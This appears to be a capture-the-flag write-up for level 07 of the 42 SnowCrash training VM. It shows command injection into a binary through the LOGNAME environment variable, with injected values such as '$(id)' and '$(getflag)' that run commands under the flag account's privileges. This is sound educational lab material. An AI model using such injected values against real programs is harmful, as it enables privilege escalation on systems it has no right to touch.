 ```yaml
---
title: 42 SnowCrash Level07 - Walkthrough 👾
tags:
  - ctf
  - snowcrash
  - 42project
  - command-injection
categories:
  - ctfs
  - 42project
date: 2024-05-18 15:19:49
---
```


![snowcrash](/images/snowcrash.png)

## Introduction

In level 07, we exploit a binary file (`level07`) that prints the `LOGNAME` environment variable. By injecting commands into the `LOGNAME` variable, we execute arbitrary commands to obtain the flag.

### Steps:

1. **Exploring the Binary:**
   We execute the binary file `level07` to understand its behavior:

   ```sh
   level07@SnowCrash:~$ ./level07 
   level07
   ```
    The program simply prints the LOGNAME variable.

2. Identifying Command Injection:
    We discover that the program evaluates the LOGNAME variable, allowing for command injection. We export the LOGNAME variable with a command to execute:
    ```sh
    level07@SnowCrash:~$ LOGNAME="\$(id)"; ./level07 
    uid=3007(flag07) gid=2007(level07) groups=3007(flag07),100(users),2007(level07)
    ```
    The command id is executed, revealing the user's identity.

3. Exploiting Command Injection:
    We exploit the command injection to execute the getflag command:
    ```sh
    level07@SnowCrash:~$ LOGNAME="\$(getflag)"; ./level07 
    Check flag. Here is your token : ***************************************
    ```
    The getflag command is executed, and we obtain the flag.

## Conclusion

By exploiting the command injection vulnerability in the level07 binary, we successfully executed arbitrary commands and obtained the flag for level 07.
